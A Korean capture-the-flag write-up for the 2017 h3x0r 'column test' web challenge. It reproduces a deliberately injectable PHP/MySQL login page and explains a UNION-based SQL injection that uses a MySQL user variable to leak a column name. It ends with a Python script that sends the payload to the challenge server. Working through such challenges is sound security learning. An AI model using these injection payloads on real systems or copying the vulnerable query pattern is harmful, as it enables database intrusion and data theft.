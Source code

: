# 2017 h3x0r - [WEB] column test

## Key words

- SQLi
- mysql variable

## Solution

문제 페이지에 접근하면 다음과 같은 PHP 소스를 제공해 줍니다.

```php
<?php

/*
 *      if you see the password column name,
 *      you will get the flag~!
 *
 */

include("./dbconfig.php");
$id = $_GET['id'];
$pw = $_GET['pw'];

if ( isset($id) || isset($pw) ) {
    if (preg_match("/info|sche|,/i", $id))
        exit("no hack ~_~");
    if (preg_match("/info|sche/i", $pw))
        exit("no hack ~_~");

    $query = "SELECT {$pw_column_name}, {$id_column_name} FROM {$table} WHERE {$id_column_name}='{$id}' AND {$pw_column_name}='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($conn ,$query));

    if ($result['id']) {
        echo "Hello {$result['id']}";
    } else {
        echo "DB error";
    }
} else {
    highlight_file(__FILE__);
}

?>
```

목적은 mysql DB에 있는 password `컬럼 이름`에 flag가 존재한다고 합니다.

그 외에는 기본적인 sql injection이 될 수 있도록 설정이 되어 있습니다.

컬럼명을 알기 위해, `load_file`, `inf\x0bomation_sch\x0bma`등등을 시도 해 보았지만 모두 실패 하였고, 결론적으로 PHP에서 변수에 값을 넣은 값을 쿼리에 출력될 수 있는 곳에 위치 시켜야 합니다.

`{$id}`를 `1' union select ` 로 만들게 되면 뒷 부분은 다음과 같이 되게 됩니다.

- ... where {$id_column_name} = '`1' union select `' AND {$pw_column_name}='{$pw}'

이렇게 되면 뒷 `union select`이후 뒷 부분이 `' AND {$pw_column_name}='{$pw} ` 이런식으로 스트링이 들어 가게 됩니다.

문제에서 약간 트릭이 있었던 부분은 출력 시, `id`를 출력하게 되어 있는데 이는 두 번째 필드 입니다. 그런데 `id`입력에 `,`를 넣을 수 없어 `pw`쪽에서 `,`를 처리 해서 컬럼을 맞춰줘야 하는데 이 부분이 까다로웠습니다.

위 union select 쿼리를 하게 되면 결국 `pw`쪽에서 콤마를 넣어서 컬럼 2개를 맞춰 줘야 하는데 이렇게 되면 우리가 열심히 넣었던 첫 번째 컬럼이 출력이 되질 않습니다.

그래서 `' AND ...` 이 스트링을 `mysql variable`형태로 변환하여 뒷 부분에서 찍어 주어 플래그를 얻을 수 있었습니다.

- {$id} = `1' union select @t=`
- {$pw} = `,@t;-- -`
- SELECT {$pw_column_name}, {$id_column_name} FROM {$table} WHERE {$id_column_name}='`1' union select @t:=`' AND {$id_column_name}='`,@t;-- -`'

결과적으로, `Hello SDNYMFJ7bXlzcWxfdmFyaWFibGVfaXNfc29fdXNlZnVsfQ=` 라는 스트링이 출력되었고 뒤에 `base64`에 `=` 패딩 하나더 추가 하여 디코딩 하면 플래그가 출력 됩니다.

## Code

```python
import requests

url = "http://13.124.1.51/web/prob15/index.php"
params = {
	"id": "1' union select @t:=",
	"pw": ",@t;-- -"
}
r = requests.get(url, params=params)
print r.content

# result
# SDNYMFJ7bXlzcWxfdmFyaWFibGVfaXNfc29fdXNlZnVsfQ==
# H3X0R{mysql_variable_is_so_useful}
```
